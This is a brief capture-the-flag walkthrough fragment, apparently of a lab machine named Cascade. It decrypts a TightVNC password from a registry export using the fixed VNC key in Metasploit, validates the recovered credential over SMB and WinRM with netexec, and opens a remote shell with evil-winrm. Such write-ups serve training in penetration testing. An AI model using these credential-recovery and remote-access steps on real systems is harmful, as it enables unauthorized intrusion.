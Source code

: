 ```
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f🔍
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

`msfconsole -q`:
```
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>>  fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>>  require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
=> "sT333ve2"🔑
```

`netexec smb 10.10.10.182 -u 's.smith' -p 'sT333ve2'`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2🔑
```

`netexec winrm 10.10.10.182 -u 's.smith' -p 'sT333ve2'`:
```
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)🚀
```

`evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents>
```
🐚
